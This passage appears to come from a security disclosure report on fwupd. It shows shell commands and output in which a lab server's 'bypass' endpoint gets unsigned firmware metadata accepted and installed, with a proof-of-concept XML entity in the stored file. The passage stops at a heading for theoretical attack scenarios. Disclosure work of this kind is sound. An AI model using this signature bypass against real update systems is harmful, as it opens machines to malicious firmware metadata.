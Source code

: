 
When the `MetadataURI` setting is pointed at the "Detached Bad Signature"
endpoint, we get the same error when refreshing the metadata:

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz

$ fwupdmgr refresh --force
WARNING: The daemon has loaded 3rd party code and is no longer supported by the upstream developers!
Fetching signature http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz.jcat
Downloading…             [***************************************]
Fetching metadata http://172.17.24.1:4444/detached_bad_signature/firmware.xml.gz

Failed to update metadata for lvfs: signatures were required, but none supplied
```

Finally, when the `MetadataURI` setting is pointed at the "Bypass" endpoint,
the signature verification succeeds and the XML is honoured. We find that the
XML has been installed in `/var/lib/fwupd/`

```
$ grep -P '^MetadataURI' /etc/fwupd/remotes.d/lvfs.conf
MetadataURI=http://172.17.24.1:4444/bypass/firmware.xml.gz

$ fwupdmgr refresh --force
WARNING: The daemon has loaded 3rd party code and is no longer supported by the upstream developers!
Fetching signature http://172.17.24.1:4444/bypass/firmware.xml.gz.jcat
Downloading…             [***************************************]
Fetching metadata http://172.17.24.1:4444/bypass/firmware.xml.gz

Successfully downloaded new metadata: 0 local devices supported


% ls -la /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz
-rw-r--r-- 1 root root 84 May 28 15:18 /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz

$ zcat /var/lib/fwupd/remotes.d/lvfs/metadata.xml.gz
<?xml version="1.0" encoding="ISO-8859-1"?>
        <poc>&fwupd_poc;</poc>
```


### Recommended Fix

Because the vulnerable code was taken from `fwupd`, the recommended fix is the
same as above.


## Appendix A - Theoretical attack scenarios for the S3 bucket takeover and signature verification bypass

Possible attack scenarios and further research opportunities:
